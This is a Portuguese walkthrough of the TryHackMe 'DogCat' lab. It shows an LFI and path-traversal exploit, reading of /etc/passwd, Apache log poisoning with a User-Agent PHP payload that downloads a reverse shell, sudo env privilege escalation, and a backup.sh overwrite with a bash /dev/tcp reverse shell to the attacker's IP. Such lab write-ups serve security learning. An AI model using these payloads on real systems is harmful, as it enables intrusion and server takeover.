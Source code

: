 # TryHackMe - DogCat

**Índice**

Lista de verificação:

- [ ]  Iniciar VPN TryHackMe
- [ ]  Varredura de Portas com “nmap -A [IP]”.
- [ ]  Verificar código-fonte da página.
- [ ]  Verificar se PHP está em execução.
- [ ]  Verificar a necessidade de encodar URL para RCE ou LFI
- [ ]  Verificar requisições no BurpSuite

## Sobre

Resolução da Room DogCat - TryHackMe.

## Informações

[https://tryhackme.com/room/dogcat](https://tryhackme.com/room/dogcat)

## Execução

Iniciamos um PortScan com `nmap -A [IP]` no HOST:

![Captura de tela de 2023-06-28 21-03-29.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-28_21-03-29.png)

O site contém 2 botões “**A dog”** e “**A cat**”, e o código-fonte aparentemente executa um arquivo PHP de acordo com o botão pressionado.

![Captura de tela de 2023-06-28 21-06-49.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-28_21-06-49.png)

![Captura de tela de 2023-06-28 21-08-21.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-28_21-08-21.png)

Nesse caso podemos fazer um “teste” PHP adicionando um carácter no ***`/?view=dog`***

![Captura de tela de 2023-06-28 21-11-11.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-28_21-11-11.png)

Como esperado ele diz não poder encontrar o arquivo ***dog*.php*** para executar a função *`include()`.*

Aqui podemos esperar um possível RCE. Podemos usar a URL para navegar e executar arquivos PHP, para teste podemos tentar fazer a mesma coisa para ***cat*** e ***index***. Nesse caso específico, “dog” é como se fosse um argumento necessário para “bypassar” a função `include()`, para depois fazermos o “parse” utilizando **`/../`**

> *No contexto da exploração de uma vulnerabilidade RCE/LFI, pode-se usar 
"http://<ip>/?view=php://filter/read=convert.base64-encode/resource=dog/../index" para contornar restrições impostas pelo site.*
> 

No caso do ***`index.php` ,***durante a requisição ele espera alguma constante a ser declarada.

![Captura de tela de 2023-06-28 21-23-27.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-28_21-23-27.png)

![Captura de tela de 2023-06-28 21-23-36.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-28_21-23-36.png)

Sabemos que conseguimos executar arquivos .php em `/var/www/html/` , sendo assim podemos tentar fazer a leitura de alguns arquivos do sistema/servidor.

Para conseguimos ter acesso a algum arquivo, temos que ter em mente a navegação via terminal por diretorios linux. Sabemos que nossa base é `?view=dog/../`  e estamos no diretório `/var/www/html/` então usamos `../../../` para irmos ao diretório raíz (/) , e a partir daí buscar nosso arquivo.

Após escolher o arquivo (aí tem que saber a localização de cabeça rs), pedimos para que seja escrito na tela com o **&ext=**  `[IP]/?view=dog/../../../../etc/passwd&ext`= .

### Porque **ext**?

Após verificar o `**dog.php**` usando filtro para imprimir o código em **BASE64** `?view=php://filter /convert.base64-encode/resource=` em `dog/../index` podemos verificar o seguinte código:

---

```php
<!DOCTYPE HTML>
<html>
<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>
<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>
    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>
</html>
```

---

No trecho `$ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';` podemos ver que é adicionado **.php** ao final do que estiver na string mencionada. Nesse caso ao digitar **dog&ext,** estamos querendo dizer **dog.php**

---

![Captura de tela de 2023-06-28 22-11-09.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-28_22-11-09.png)

---

Sabendo que conseguimos ler arquivos, podemos fazer um **LogPoison** ([link](https://rodolfomarianocy.medium.com/aprenda-a-fazer-log-poisoning-em-ssh-e-apache-via-lfi-65f08a2f7d1d)).

> *Trata-se de sujar logs de serviços e através de RCE e forçar uma execução e uma resposta vinda do servidor, como uma execução de código remoto que vai interpretar e executar nosso código PHP malicioso.*
> 

Em primeiro lugar, sabemos que o serviço WEB que roda neste host é um **Apache**, por padrão o diretório de logs fica localizado em `var/log/apache2/access.log` , e para acessar podemos usar `[IP]/?view=dog/../../../../../../../var/log/apache2/access.log&ext=` 

---

![Captura de tela de 2023-06-28 22-40-58.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-28_22-40-58.png)

---

Agora podemos testar o log, dando um comando qualquer em `?view=` . Neste caso digitei **ls -la** e observando o código-fonte da página, podemos ver uma nova requisição armazenada no `access.log` .

![Captura de tela de 2023-06-29 19-58-33.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-29_19-58-33.png)

O log armazena IP, DT/HR, o tipo de requisição, caminho, e o **UserAgent**. Aqui podemos injetar um arquivo PHP malicioso para obtermos uma SHELL Reversa. ([link](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php))

Após configurar devidamente o shell.php, inicio um serviço “WebHTTP” utilizando o Python3:
`sudo python3 -m http.server 80`

E utilizando o BurpSuite, altero o **UserAgent** da requisição do Access.log para o seguinte:

`<?php file_put_contents('shell.php',file_get_contents('http://[IP]/shell.php'))?>`

![Captura de tela de 2023-06-29 20-17-40.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-29_20-17-40.png)

---

Nesse momento nosso serviço Web confirma o acesso ao arquivo.

![Captura de tela de 2023-06-29 20-38-22.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-29_20-38-22.png)

Agora é só obter a Shell Reversa com o host. Podemos fazer isso usando o NetCat: 

`nc -nlvp 5555`

E pronto! Temos acesso ao Host com sucesso!

![Captura de tela de 2023-06-29 20-40-28.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-29_20-40-28.png)

Utilizando o comando `find / -name **flag** 2>/dev/null` , podemos começar a encontrar as Flags.

![Captura de tela de 2023-06-29 20-47-12.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-29_20-47-12.png)

Ok, agora vamos ver o que nosso usuário pode executar …

![Captura de tela de 2023-06-29 20-50-26.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-29_20-50-26.png)

Ótimo! podemos executar o env como superusuario sem a necessidade de senha. Para facilitar, podemos acessar o GTFOBins ([https://gtfobins.github.io/](https://gtfobins.github.io/)) para pesquisar os comandos.

![Captura de tela de 2023-06-29 20-52-39.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-29_20-52-39.png)

---

![Captura de tela de 2023-06-29 20-53-37.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-29_20-53-37.png)

Finalmente! Como ROOT tudo fica mais fácil. Agora podemos terminar nossa ROOM encontrando as FLAGS restantes usando o mesmo comando que antes (`find / -name **flag** 2>/dev/null`), só que agora como ROOT.

### E a Flag4?!

Boa pergunta rs

Precisei colar de um Walkthrough do canal “[Optional](https://www.youtube.com/watch?v=zGDbi15Jkqw)” no YouTube, e lá ele mostra um arquivo em `/opt/backups/backup.tar`

Pelo que entendi esse é um container Docker. E pela última modificação do arquivo, ele deve ser executado frequentemente. Então seguindo os passos do “Optional”, como ROOT, sobrescrevi o `backup.sh` usando o comando echo e tive que aguardar uns minutinhos:

`echo -e "#!/bin/bash\nbash -i >& /dev/tcp/10.13.5.224/5555 0>&1" > backup.sh`

![Captura de tela de 2023-06-29 21-25-30.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-29_21-25-30.png)

---

E por fim a Flag4 !

---

![Captura de tela de 2023-06-29 21-26-07.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-29_21-26-07.png)

---

Obrigado por ler, espero que tenha aprendido alguma coisa :)
